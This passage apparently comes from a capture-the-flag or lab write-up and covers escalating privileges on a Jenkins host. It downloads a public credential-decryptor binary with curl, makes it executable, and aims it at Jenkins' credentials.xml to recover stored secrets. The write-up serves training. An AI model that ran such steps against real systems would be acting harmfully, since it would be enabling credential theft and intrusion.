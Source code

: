 ![](Files/image8.png)

We use script to fix our tty

![](Files/image9.png)

##  Rooting: Method 1

There is a file names credentials.xml which stores encrypted stored creds, we will try to crack that now
https://github.com/hoto/jenkins-credentials-decryptor
```bash
curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor

chmod +x jenkins-credentials-decryptor
```
